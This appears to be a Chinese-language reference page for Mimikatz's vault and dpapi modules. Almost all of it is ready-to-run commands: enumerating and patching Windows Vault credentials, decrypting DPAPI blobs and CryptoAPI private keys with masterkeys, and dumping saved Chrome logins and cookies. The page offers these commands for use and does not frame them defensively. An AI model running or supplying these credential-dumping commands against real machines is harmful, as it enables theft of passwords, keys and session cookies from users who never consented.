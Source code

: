
# Vault模块

Mimikatz的这个模块与Windows Credentials Vault进行交互。DPAPI是获得相同结果的一个更好的替代选项

## cred

枚举vault 里面的凭据

```
mimikatz # vault::cred

mimikatz # vault::cred /patch
```

## list

列出Windows Vault中保存的凭证，如计划任务、RDP、当前用户的Internet Explorer等

```
mimikatz # vault::list
```

# dpapi

## blob
> describes a DPAPI blob and unprotects/decrypts it with API or Masterkey

```
mimikatz # dpapi::blob /in:dpapi_blob.txt /unprotect
```

## cache
显示DPAPI模块的凭证缓存

```
mimikatz # dpapi::cache
```

## capi
解密一个CryptoAPI的私钥文件

```
mimikatz # dpapi::capi /in:"D:\\Users\\Gentil Kiwi\\AppData\\Roaming\\Microsoft\\Crypto\\RSA\\S-1-5-21-494464150-3436831043-1864828003-1001\\79e1ac78150e8bea8ad238e14d63145b_4f8e7ec6-a506-4d31-9d5a-1e4cbed4997b" /masterkey:f2c9ea33a990c865e985c496fb8915445895d80b
```

## chrome
从Chrome中转储的证书和cookies
```
mimikatz # dpapi::chrome /in:"C:\Users\m3g9tr0n\AppData\Local\Google\Chrome\User Data\Default\Login Data" /masterkey:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
```

